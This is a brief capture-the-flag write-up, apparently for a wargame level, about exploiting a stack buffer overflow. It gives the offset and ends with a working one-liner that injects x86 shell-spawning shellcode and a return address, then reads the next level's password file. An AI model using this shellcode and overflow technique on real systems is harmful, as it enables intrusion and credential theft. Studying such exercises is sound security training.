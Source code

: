 ## Brief

This one compare the user input with some string print some log to the `stdout`. The user input is first stored inside buffer declared as a global variable and then a stack buffer.

## Exploit

This exploit is quite simple and follows the same principe as every stack buffer overflow exploit.

We want to first use the correct input to pass the first check then we will use the second buffer to overwrite the return address.

We're using the pattern generator to find the offset to put our return address. The offset is `80`.

Now we just need to find the address of our buffer in order to execute the shellcode that we will put inside. We will put the shellcode in the first buffer.

## Commands

```bash
(python -c "print('dat_wil' + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80')"; python -c "print(80*'\x90' + '\x47\xa0\x04\x08')"; echo "cat /home/users/level02/.pass") | ./level01
```